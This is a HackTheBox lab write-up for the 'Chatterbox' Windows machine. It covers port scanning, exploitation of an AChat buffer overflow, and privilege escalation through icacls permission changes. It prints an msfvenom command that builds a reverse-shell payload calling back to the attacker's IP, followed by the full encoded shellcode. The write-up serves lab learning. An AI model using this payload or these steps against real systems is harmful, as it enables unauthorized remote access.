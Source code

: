 ```yaml
---

title: "Chatterbox"
date: 2023-08-10T11:30:03+00:00
tags: ["web","windows","AChat"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Chatterbox.png"
comments: false
description: "This is a friendly windows machine that is vulnerable because it presents an outdated version of ports 9255 and 9256 (AChat)."

---
```


## Room Information

- Room name: Chatterbox
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Chatterbox

![Untitled](/HTB/Chatterbox.png)

## Tools Used

- Nmap
- crackmapexec
- msfvenom
- icacls
- smbserver
- smbclient
- searchsploit

## Port Scanning

Other room, other port scan.

```bash
nmap -p- --open --min-rate 5000 -sS -n -Pn -oG allPorts 10.10.10.74
```

![Untitled](/HTB/1-chatterbox.png)

```bash
nmap -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 --min-rate 5000 -sCV -Pn -oN targeted 10.10.10.74
```

![Untitled](/HTB/2-chatterbox.png)

```bash
nmap -p 9255,9256 -sCV -n --min-rate 5000 -Pn -oN firewall 10.10.10.74
```

![Untitled](/HTB/3-chatterbox.png)

This was so suspicious, so after trying a lot of things with **smb** ports I looked at the **AChat** service.

## Enumeration

On this machine there was no web page so the only data enumeration I could do was from the smb ports, but I got nothing because even though I was allowed to connect with an anonymous user, I had no permissions to list anything.

## Exploiting

After seeing that there were some ports that supported the service called AChat, what I did was very simple, I searched in searchsploit AChat and I found an exploit that through the buffer overflow that allowed to execute commands remotely, so I modified a couple of things and I did that instead I generated a reverse shell.

![Untitled](/HTB/4-chatterbox.png)

![Untitled](/HTB/5-chatterbox.png)

![Untitled](/HTB/6-chatterbox.png)

Then this is the command that generated the payload just below, so I modified it so that instead of running the windows calculator, it would generate a reverse shell. 

```bash
┌──(kali㉿kali)-[~/HTB/chatterbox/exploits]
└─$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3822 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x59\x6c\x38\x68\x74\x42\x4b\x50"
buf += b"\x39\x70\x49\x70\x73\x30\x61\x79\x57\x75\x6d\x61"
buf += b"\x55\x70\x6f\x74\x44\x4b\x62\x30\x4c\x70\x42\x6b"
buf += b"\x42\x32\x4a\x6c\x42\x6b\x42\x32\x6b\x64\x64\x4b"
buf += b"\x33\x42\x4e\x48\x6a\x6f\x65\x67\x4f\x5a\x4b\x76"
buf += b"\x70\x31\x69\x6f\x34\x6c\x6f\x4c\x50\x61\x71\x6c"
buf += b"\x6a\x62\x6e\x4c\x4f\x30\x79\x31\x56\x6f\x6a\x6d"
buf += b"\x6a\x61\x59\x37\x77\x72\x6c\x32\x31\x42\x30\x57"
buf += b"\x52\x6b\x61\x42\x6c\x50\x34\x4b\x6d\x7a\x6d\x6c"
buf += b"\x72\x6b\x50\x4c\x6b\x61\x72\x58\x49\x53\x6e\x68"
buf += b"\x49\x71\x48\x51\x4f\x61\x54\x4b\x4e\x79\x4f\x30"
buf += b"\x4b\x51\x58\x53\x32\x6b\x6e\x69\x4a\x78\x78\x63"
buf += b"\x4f\x4a\x50\x49\x52\x6b\x6e\x54\x32\x6b\x4d\x31"
buf += b"\x79\x46\x4e\x51\x4b\x4f\x44\x6c\x56\x61\x66\x6f"
buf += b"\x4a\x6d\x5a\x61\x75\x77\x6d\x68\x37\x70\x50\x75"
buf += b"\x79\x66\x79\x73\x71\x6d\x4b\x48\x4f\x4b\x63\x4d"
buf += b"\x6d\x54\x74\x35\x37\x74\x4f\x68\x52\x6b\x50\x58"
buf += b"\x6b\x74\x39\x71\x7a\x33\x33\x36\x74\x4b\x4a\x6c"
buf += b"\x30\x4b\x54\x4b\x72\x38\x6d\x4c\x6a\x61\x57\x63"
buf += b"\x32\x6b\x4b\x54\x42\x6b\x4d\x31\x66\x70\x52\x69"
buf += b"\x51\x34\x6d\x54\x4e\x44\x71\x4b\x51\x4b\x63\x31"
buf += b"\x61\x49\x30\x5a\x62\x31\x69\x6f\x37\x70\x61\x4f"
buf += b"\x51\x4f\x6f\x6a\x52\x6b\x7a\x72\x68\x6b\x32\x6d"
buf += b"\x51\x4d\x51\x58\x6f\x43\x4c\x72\x4d\x30\x49\x70"
buf += b"\x61\x58\x53\x47\x62\x53\x6c\x72\x61\x4f\x72\x34"
buf += b"\x43\x38\x30\x4c\x52\x57\x4d\x56\x4b\x57\x69\x6f"
buf += b"\x68\x55\x34\x78\x34\x50\x49\x71\x49\x70\x59\x70"
buf += b"\x4e\x49\x76\x64\x4f\x64\x32\x30\x70\x68\x6d\x59"
buf += b"\x63\x50\x32\x4b\x6b\x50\x6b\x4f\x7a\x35\x6e\x70"
buf += b"\x4e\x70\x6e\x70\x6e\x70\x51\x30\x72\x30\x6f\x50"
buf += b"\x52\x30\x53\x38\x69\x5a\x4a\x6f\x59\x4f\x37\x70"
buf += b"\x79\x6f\x37\x65\x36\x37\x6f\x7a\x4d\x35\x50\x68"
buf += b"\x6a\x6a\x4c\x4a\x4c\x4e\x6c\x50\x61\x58\x4a\x62"
buf += b"\x49\x70\x6b\x61\x71\x4c\x73\x59\x39\x56\x61\x5a"
buf += b"\x7a\x70\x70\x56\x71\x47\x72\x48\x72\x79\x47\x35"
buf += b"\x52\x54\x4f\x71\x39\x6f\x6a\x35\x72\x65\x79\x30"
buf += b"\x43\x44\x7a\x6c\x4b\x4f\x30\x4e\x5a\x68\x73\x45"
buf += b"\x38\x6c\x42\x48\x38\x70\x57\x45\x65\x52\x4e\x76"
buf += b"\x79\x6f\x57\x65\x70\x68\x4f\x73\x32\x4d\x70\x64"
buf += b"\x59\x70\x33\x59\x48\x63\x72\x37\x72\x37\x30\x57"
buf += b"\x6d\x61\x6c\x36\x51\x5a\x7a\x72\x52\x39\x52\x36"
buf += b"\x49\x52\x59\x6d\x50\x66\x59\x37\x6e\x64\x4e\x44"
buf += b"\x4f\x4c\x4a\x61\x49\x71\x74\x4d\x51\x34\x6e\x44"
buf += b"\x5a\x70\x68\x46\x69\x70\x61\x34\x72\x34\x72\x30"
buf += b"\x72\x36\x30\x56\x31\x46\x6e\x66\x52\x36\x70\x4e"
buf += b"\x6e\x76\x4e\x76\x52\x33\x32\x36\x61\x58\x30\x79"
buf += b"\x46\x6c\x6f\x4f\x64\x46\x6b\x4f\x76\x75\x65\x39"
buf += b"\x79\x50\x4e\x6e\x51\x46\x30\x46\x59\x6f\x70\x30"
buf += b"\x62\x48\x5a\x68\x31\x77\x6b\x6d\x43\x30\x69\x6f"
buf += b"\x47\x65\x57\x4b\x5a\x50\x67\x45\x76\x42\x4e\x76"
buf += b"\x43\x38\x43\x76\x44\x55\x75\x6d\x43\x6d\x59\x6f"
buf += b"\x37\x65\x4d\x6c\x4d\x36\x73\x4c\x4b\x5a\x51\x70"
buf += b"\x59\x6b\x79\x50\x64\x35\x59\x75\x47\x4b\x51\x37"
buf += b"\x6e\x33\x73\x42\x32\x4f\x4f\x7a\x69\x70\x61\x43"
buf += b"\x59\x6f\x5a\x35\x41\x41"
```

With this, the only thing left to do was to change the old payload for this one, listen on port 4444 and execute the code.  

![Untitled](/HTB/7-chatterbox.png)

At this point I was in 😇

## Escalating Privileges

As soon as I enterd the machine I went to the main user's folder alfred, and I could see the flag without any problems. Then, I went to the Administrator user and I saw that I could enter without problems and I could also enter the desktop where the root flag was, but I could not see it because I did not have permissions. I found it so strange that I looked for how I could see the permissions I had in windows and I saw that using icacls I could see them. I quickly realized that I had F permissions on the desktop folder so I could easily see what was in the root flag with a simple command and using the above application.

```bash
icacls root.txt /grant alfred:F
```

![Untitled](/HTB/8-chatterbox.png)

Also I search exploits before discovering the other form…

![Untitled](/HTB/9-chatterbox.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about AChat.
    
- Where there any novel tools or techniques employed?
    
    The use of icacls.
